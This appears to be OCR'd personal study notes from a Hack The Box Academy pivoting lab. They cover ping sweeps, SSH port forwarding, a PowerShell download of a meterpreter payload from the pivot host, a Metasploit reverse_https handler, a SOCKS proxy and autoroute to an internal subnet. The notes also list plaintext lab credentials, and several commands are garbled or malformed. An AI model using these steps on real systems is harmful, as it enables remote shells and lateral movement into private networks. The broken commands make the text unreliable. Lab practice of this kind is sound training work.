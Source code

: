 
Pivot internal: 172.16.5.129
Network: 172.16.5.0/23
172.16.5.19:victor:pass@123


## Section 1
1. Question 1
```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::foo -->|ssh| B(Webserver):::bar ---> C(Target 2):::bar
    A[Attacker] --->|-L 8080:local:80| C(Target 2)
    classDef foo stroke:#f00
    classDef bar stroke:#0f0

end
```

Find host

for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.310 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.017 ms

## Section 2
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.160.193-fNv

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backup.exe" -OutFile "C:\Users\victor\backup.exe"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https set LHOST 0.0.0.0; set 8000; exploit"

tools
internet options
security tab
truted zoneHTB_@cademy_stdnt10.129.218.108HTB_@cademy_stdnt!

## Section 3
- Steps
1. Upload meterpreter shell on the pivot

   - scp backupjob ubuntu@10.129.86.217:/home/ubuntu

2. Create listener (multi handler) on the attacker to listen to 1

    - session created

3. Execute ping sweep on the internal network

    - post(multi/gather/ping_sweep) = NO
      - set Session 1
      - set RHOST
    - run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 = NO
    - for i in {1..254} ;do (ping -c 5 -i 5 172.16.5.$i | grep "bytes from" &) ;done OK
    - for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

4. Set up MSF sock proxy
    - auxiliary(server/socks_proxy) 
      - set SRVPORT 9050
      - set SRVHOST 0.0.0.0
      - jobs: 0   Auxiliary: server/socks_proxy

5. Create routes to internal subnet found on the pivot (module | inside meterpreter)
    - post(multi/manage/autoroute) >
      - set session
      - set subnet 172.16.5.0
    - run autoroute -s 172.16.5.0/23
      - run autoroute -p: 172.16.5.0         255.255.254.0      Session 6
